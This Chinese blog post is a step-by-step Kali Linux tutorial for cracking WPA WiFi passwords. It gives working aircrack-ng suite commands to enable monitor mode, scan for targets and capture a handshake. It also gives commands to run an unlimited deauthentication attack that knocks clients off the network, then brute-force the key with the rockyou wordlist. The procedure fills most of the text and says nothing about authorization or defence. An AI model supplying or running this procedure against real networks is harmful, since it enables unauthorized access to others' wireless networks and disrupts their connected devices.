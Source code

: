 ```yaml
---
title: kali抓包破解WIFI密码
date: 2019-09-30 11:41:21
author: dylan
top: false
cover: false
categories: 无线安全
tags: 
    - web安全
    - tools
    - wifi
    - 爆破
    - 密码
---
```


# 0x01 前言

使用kali破解wifi密码，如果kali安装在虚拟机，需要一个外置usb网卡。

# 0x02 开始
## 查看插入的网卡
打开kali虚拟机，插入USB无线网卡，打开终端

`iwconfig`

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190930115136.png)

## 查看无线网卡

`airmon-ng`
上面命令列出了支持监控模式的无线网卡。如果没有任何输出，表示无线网卡不支持监控模式。

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190930115331.png)

## 开启网卡监听模式,记录Interface名称,杀掉其他使用WiFi进程

`airmon-ng  start wlan0`
如果有下图提示表示有其他网卡处于监控模式。
使用
`airmon-ng check kill`
结束其他使用WIFI进程
在执行
`airmon-ng  start wlan0`
记住interface名称。

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190930120244.png)
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190930131449.png)
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190930131600.png)


## 扫描信号

`airodump-ng wlan0mon`

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190930120326.png)

 *   BSSID是AP端的MAC地址
 *  PWR是信号强度，数字越小越好
 *  Data是对应的路由器的在线数据吞吐量，数字越大，数据上传量越大。
 *   CH是对应路由器的所在信道
 *   ESSID是对应路由器的名称

找到目标后，`ctrl + c` 中止

## 抓取握手包

```
airodump-ng -c 11 -w ./test --bssid 78:44:FD:83:0B:2C wlan0mon
airodump-ng -c <AP的信道> -w <抓取握手包的存放位置名称> --bssid <AP的MAC地址> <你的的Interface名称>
```

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190930133222.png)

## 解除认证攻击
保持上一个terminal窗口的运行状态，打开一个新的terminal,进行解除认证攻击
强制连接到wifi的设备重新连接路由器，掉线设备重连后，如图所示位置显示`WPA handshake --`即成功抓取到握手包。
两个terminal使用`ctrl+c`终止攻击和握手抓包。

```
aireplay-ng -0 0 -a 9C:A6:15:D0:04:C9 -c D8:32:E3:A7:B9:6F wlan0mon
aireplay-ng -<攻击模式，我们这里使用 解除认证攻击(数字0)> [攻击次数，0为无限攻击] -a <AP端的MAC地址> -c <客户端端的MAC地址> <interface名称>
```

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190930135405.png)

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190930135508.png)

## 关闭无线网卡的监听模式
`airmon-ng stop wlan0mon`

## 使用字典暴力破解
kali下自带一份无线密码字典 -->`/usr/share/wordlists/rockyou.txt.gz`
解压：
`gzip -d /usr/share/wordlists/rockyou.txt.gz`

```
aircrack-ng  -w  /usr/share/wordlists/rockyou.txt  -b  BC:46:99:3D:66:D6 tplink-01.cap
#-w指定 密码字典 -b指定路由器的MAC地址
```

爆破成功后，如图区域位置显示`KEY FOUND!`字样，中括里为AP端的密码。

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190930145120.png)

over！

# 参考文章
[使用Aircrack-ng 工具进行WIFI的监听和破解 - 林中静月下仙的博客](https://blog.csdn.net/qq_21137441/article/details/88795079)